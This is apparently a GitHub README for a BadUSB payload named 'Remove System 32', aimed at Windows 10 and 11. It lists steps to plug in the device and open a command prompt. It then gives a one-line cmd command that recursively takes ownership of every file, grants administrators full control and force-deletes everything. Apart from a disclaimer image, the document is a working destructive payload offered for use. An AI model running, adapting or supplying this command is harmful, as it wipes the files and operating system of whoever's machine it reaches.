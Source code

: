 # Remove System 32 - BadUSB ✅

A script used to remove System 32.

**Category**: Execution

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to remove System 32.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Opens CMD terminal
* Execute command

Execution
```cmd
takeown /f * /r /a /d y && icacls * /inheritance:r /grant:r administrators:(F) /t & del /f /q *
```
